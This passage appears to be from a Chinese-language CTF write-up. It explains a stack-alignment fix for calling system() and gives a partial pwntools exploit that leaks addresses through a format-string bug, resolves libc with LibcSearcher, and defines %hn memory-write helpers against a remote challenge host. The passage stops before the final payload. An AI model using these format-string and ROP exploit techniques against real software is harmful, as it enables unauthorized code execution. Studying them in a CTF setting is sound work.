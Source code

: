   ```
  
    为什么要这样做呢？因为不添这一环的话，程序会因为段错误退出，经过gdb调试后发现是在`system()`函数调用到`do_system()`函数的时候，在执行**movaps xmmword ptr [rsp + 0x40], xmm0**指令时，指令要求rsp+0x40的值要对齐16bytes，否则会直接触发中断从而crash。
    解决办法就是在构造ROP链的时候多加一个`ret`，从而使得执行到那条指令的时候rsp是对齐的。
  
- 附上exp：

    ```python
    from pwn import *
    from LibcSearcher import LibcSearcher
    
    DEBUG=0
    if DEBUG==1:
        sh=process('/mnt/hgfs/ctf/pwn1')
    else:
        sh=remote('ha1cyon-ctf.fun',port)
    
    context.log_level='info'#'debug'
    
    # get pop_rdi_ret and ret
    sh.sendline('%6$p')
    pop_rdi_ret=int(sh.recv()[0:-1],16)-0x30+0x93
    ret=pop_rdi_ret-0x893+0x626
    
    log.info("pop_rdi_ret   --> [%s]"%hex(pop_rdi_ret))
    
    # get ret_stackaddr
    sh.sendline('%9$p')
    work_addr=int(sh.recv()[0:-1],16)#$35
    ret_stackaddr=work_addr-8*(35-7)#$7
    
    log.info("ret_stackaddr --> [%s]"%hex(ret_stackaddr))
    
     
    # get ret_addr
    sh.sendline('%7$p')
    ret_addr=int(sh.recv()[0:-1],16)
    
    log.info("ret_addr    --> [%s]"%hex(ret_addr))
    
    # get libcbase and system_addr
    libc_start_main=ret_addr-231
    libc=LibcSearcher('__libc_start_main',libc_start_main)
    libcbase=libc_start_main-libc.dump('__libc_start_main')
    
    log.info("libc_base   --> [%s]"%hex(libcbase))
    
    system_addr=libcbase+libc.dump('system')
    #binsh_addr=libcbase+libc.dump('str_bin_sh')
    
    log.info("system_addr --> [%s]"%hex(system_addr))
    
    def set2location(addr):
        global sh
        global control
        sh.sendline('%'+str(addr)+'c%'+str(control)+'$hn')
        sh.recv()
        checkOK()
    
    def override(data):
        global sh
        sh.sendline('%'+str(data)+'c%35$hn')
        sh.recv()
  ```
